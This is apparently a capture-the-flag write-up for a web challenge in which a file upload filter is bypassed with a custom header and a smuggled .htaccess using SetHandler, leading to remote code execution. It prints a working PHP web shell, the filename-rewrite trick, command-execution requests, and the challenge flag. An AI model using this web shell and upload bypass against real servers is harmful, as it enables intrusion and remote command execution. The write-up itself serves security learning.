







# Writeup — FURAB Secret Society

**Author:** Dhio
**Category:** Web Exploitation (Unrestricted File Upload & Filter Bypass)
**Difficulty:** Medium

## 1. Recon

The landing page is a "recruitment platform" that only accepts a JPG/PNG upload as proof of following an Instagram account.



The real goal is a chat-log backup left in the same `/uploads/` folder the app writes to — so the task is to get code execution through that upload form.

Uploading a `.php` or `.htaccess` file directly is rejected immediately by the server's filter.



## 2. Finding the hidden bypass (Hint 1)

Hint 1 pointed at a header: `X-HTTPS-Modified: true`. Intercepting the upload request in Burp Suite and adding that header is what actually gets the file type check to relax.

## 3. Smuggling a working `.htaccess` (Hint 2 & 3)

Hint 2 ("Lupakan Add, kita mainnya Set") rules out the usual `AddType`/`AddHandler` directives — those are blocked. Hint 3 points at Apache's `SetHandler`, combined with a `<FilesMatch>` pattern, which can force files that don't even have a `.php` extension to execute as PHP.

**Steps:**

1. Prepare a PHP web shell saved as an image, e.g. `shell.jpg`:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
2. Intercept the upload in Burp Suite and rewrite the `filename` field from `shell.jpg` to `.htaccess`.
3. Replace the file content with:
   ```apache
   SetHandler application/x-httpd-php
   ```
4. Make sure the `X-HTTPS-Modified: true` header from step 2 is still attached, or the `.htaccess` upload gets rejected again.

**Before:**



**After:**



**With the required header:**



## 4. Getting code execution

With `.htaccess` now live in `/uploads/`, every file in that folder — including non-PHP ones — gets executed as PHP by Apache. Re-upload the original `shell.jpg` (this time it doesn't need any special header, since it's just an image upload) and request it directly:



The `Undefined array key 'cmd'` warning confirms the PHP code is executing — it's just complaining that the `cmd` parameter is empty. From here it's standard RCE:

```
/uploads/shell.jpg?cmd=ls -la ..
/uploads/shell.jpg?cmd=find .. -name "flag.txt"
```

## 5. Flag



```
CSC{FURAB_AKAN_BERLAYAR}
```

## Takeaways

- Client/server-side extension filtering alone is not enough; this challenge chains a hidden header bypass with an Apache config quirk (`SetHandler` + `<FilesMatch>`) rather than a single well-known trick, which is what made it non-trivial to copy-paste solve.
- Always test upload filters with a proxy (Burp Suite) rather than just the UI — several real bypasses (custom headers, filename tricks) only show up when you can edit the raw request.
